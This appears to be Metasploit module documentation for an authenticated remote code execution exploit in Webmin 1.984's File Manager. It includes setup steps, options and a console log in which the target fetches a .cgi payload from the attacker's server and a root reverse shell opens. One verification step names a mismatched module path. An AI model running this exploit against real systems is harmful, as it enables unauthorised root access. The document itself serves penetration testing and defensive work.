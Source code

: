 ## Vulnerable Application

In Webmin v1.984, affecting File Manager module, any authenticated low privilege user without access rights to the
File Manager module could interact with file manager functionalities such as download file from remote URL and change
file permission (chmod). It is possible to achieve Remote Code Execution via a crafted .cgi file by chaining those
functionalities in the file manager.

### Setup, on Ubuntu 20.04

```
wget https://download.webmin.com/devel/deb/webmin_1.984_all.deb
sudo dpkg -i  webmin_1.984_all.deb
```

Webmin should now be installed. The credentials for the web UI will be the same as the
user that installed Webmin

## Options
### USERNAME
A specific username to authenticate as
### PASSWORD
A specific password to authenticate with

## Verification Steps

1. Start msfconsole
1. Do: `use exploit/linux/http/panos_auth_rce`
1. Set the `RHOST`, `USERNAME`, and `PASSWORD` options
1. Run the module
1. Receive a session as the `root` user.

## Scenarios
### Webmin 1.984, on Ubuntu 20.04

```
msf6 > exploit/linux/http/webmin_file_manager_rce
[*] Using exploit/linux/http/webmin_file_manager_rce
msf6 exploit(linux/http/webmin_file_manager_rce) > set password notpassword
password => notpassword
msf6 exploit(linux/http/webmin_file_manager_rce) > set lhost 172.16.199.1
lhost => 172.16.199.1
msf6 exploit(linux/http/webmin_file_manager_rce) > set rhosts 172.16.199.132
rhosts => 172.16.199.132
msf6 exploit(linux/http/webmin_file_manager_rce) > set username msfuser
username => msfuser
msf6 exploit(linux/http/webmin_file_manager_rce) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Using URL: http://172.16.199.1:8080/tmBFT82mvsHD
[*] Attempting to authenticate with Webmin
[+] Authentication successful
[*] Downloading remote url
[*] Fetching payload from HTTP server
[*] Request 'GET /tmBFT82mvsHD.cgi'
[*] Sending payload ...
[*] Finished downloading remote url
[*] Modifying the permissions of the uploaded payload to 0755
[+] Deleted /usr/share/webmin/tmBFT82mvsHD.cgi
[*] Command shell session 9 opened (172.16.199.1:4444 -> 172.16.199.132:58058) at 2022-10-25 16:21:02 -0400
[*] Server stopped.

id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux ubuntu 5.15.0-52-generic #58~20.04.1-Ubuntu SMP Thu Oct 13 13:09:46 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
```
